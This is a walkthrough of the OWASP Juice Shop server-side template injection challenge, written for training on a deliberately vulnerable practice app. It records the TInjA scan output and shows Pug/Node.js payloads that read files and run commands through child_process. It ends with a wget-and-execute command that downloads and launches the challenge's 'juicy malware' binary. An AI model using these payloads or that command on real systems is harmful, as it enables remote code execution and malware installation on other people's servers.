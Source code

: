 ## SSTi

**Category:** Injection

**Difficulty:** 6/6

**Challenge Description:** Infect the server with juicy malware by abusing arbitrary command execution.

## Approach

### Finding Template generated Pages

In order to find a page vulnerable to server-side template injection I had some luck, because I am quite familiar with Angular. The reason why this was helpful is, that the hashtag in the URL is Angular's way to display routes:

![Angular URL](/images/angular-url.png)

Some pages which don't contain a hashtag, are very likely not generated by Angular. Some examples are the /ftp endpoint, but also the /profile endpoint:

![Non Angular URL](/images/template-url.png)

Since /ftp does not contain any user-controlled I decided to focus on /profile.

### Trying my Luck with TInjA

TInjA is a tool, which checks for possible SSTI. It was my first time working with this tool, so it took me quite some research and playing around with the tool until I got a useful result.

But finallly I was able to identify the template engine being used.

```
┌──(orb1t4l㉿elysium)-[~/OWASP/juice-shop/ssti]
└─$ tinja jsonl -j profile_post.jsonl
TInjA v1.1.4 started at 2024-09-25_20-33-58

Analyzing URL(1/1): http://192.168.0.1:3000/profile
===============================================================
Status code 200
Analyzing post parameter  username  =>  test
[*] Value  KM7KDRMKYGB3F6FB  of POST parameter  username  is being reflected 2 time(s) in the response body

[!] The polyglot <%'${{/#{@}}%>{{ triggered an error: Status Code 500
[!] The polyglot p ">[[${{1}}]] was rendered in a modified way: [p &quot;&gt;[[${{1}}]]] (HTML encoded)
[*] The polyglot p ">[[${{1}}]] returned the response(s) [unmodified p &quot;&gt;[[${{1}}]]]
[!] The polyglot <%=1%>@*#{1} was rendered in a modified way: [<%=1%>@*1]
[!] The polyglot <%=1%>@*#{1} was rendered in a modified way: [&lt;%=1%&gt;@*#{1}] (HTML encoded)
[*] The polyglot <%=1%>@*#{1} returned the response(s) [<%=1%>@*1 &lt;%=1%&gt;@*#{1}]
[*] The polyglot {##}/*{{.}}*/ returned the response(s) [unmodified unmodified]

A template injection was detected and the template engine is now being identified.
[!] The polyglot a">##[[${1}]] triggered an error: Status Code 500

Verifying the template injection by issuing template expressions tailored to the specific template engine.
[*] Verifying Pug (Inline).
[*] The polyglot #{7*7} returned the response(s) [unmodified]
[+] A template engine was detected, but could not be identified (certainty: Low)

===============================================================

Successfully finished the scan
[+] Suspected template injections: 1
[+] 0 Very High, 0 High, 0 Medium, 1 Low, 0 Very Low certainty

Duration: 767.866151ms
Average polyglots sent per user input: 5
```

The POST request I used was:

```json
{
  "request": {
    "method": "POST",
    "endpoint": "http://192.168.0.1:3000/profile",
    "body": "username=test",
    "headers": {
      "Cookie": "token=ey..."
    }
  }
}
```

What we have so far is, that the username input field is vulnerable to SSTI and Pug is used as the template engine.

Since it was my first time using this tool, I decided to verify it per hand.

First I changed my username to the polyglot (`a">##[[${1}]]`), which led to the following error page:

![SSTI Pug Error](/images/ssti-pug-error.png)

The last step verifying the SSTI was to change the username to something, that the template engine would actually process. As you can see, the value `#{7*7}` was processed to 49.

![SSTI Verification](/images/ssti-verified.png)

### Crafting the right Payload

Building a working payload definitely took more time (hours...) than expected. After trying some payload from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) and [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) I had no other option than return to building the payload by myself.

I started with the [SSTI Exploitation Guide](https://portswigger.net/web-security/server-side-template-injection/exploiting) from PortSwigger. I started simply by trying to access objects used in the mentioned payload sources from above like `root` and `global` to see if they are already loaded. After some time I finally made some progress and found out, that I could access the main module (entry point of the application) of NodeJS.

![SSTI NodeJS MainModule](/images/ssti-mainmodule-access.png)

A great help here, was the `Object.getOwnPropertyNames()` function of NodeJS, because it shows all properties of an object.

My next goal was to check, if I could read from the filesystem, which was successfull with `#{global.process.mainModule.require('fs').readdirSync('.')}`:

![SSTI Successfull Read](/images/ssti-successfull-read.png)

### RCE with SSTI

Since I already knew, that I could use `require()`, it was time to finally a RCE. The first step was to execute the `whoami` command, which I did with `#{global.process.mainModule.require('child_process').execSync('whoami')}`. I wasted some time on trying with just the `exec()` function, but this won't return the actual result, since it is a asynchronous function.

![SSTI RCE whoami](/images/ssti-rce-whoami.png)

To solve the challenge it is necessery to download and execute the *juicy malware*. The command I used for this is `wget https://github.com/juice-shop/juicy-malware/raw/master/juicy_malware_linux_amd_64 && mv juicy_malware_linux_amd_64 malware && chmod +x malware && ./malware`. In order to not freeze the web server you should use `exec()` here.

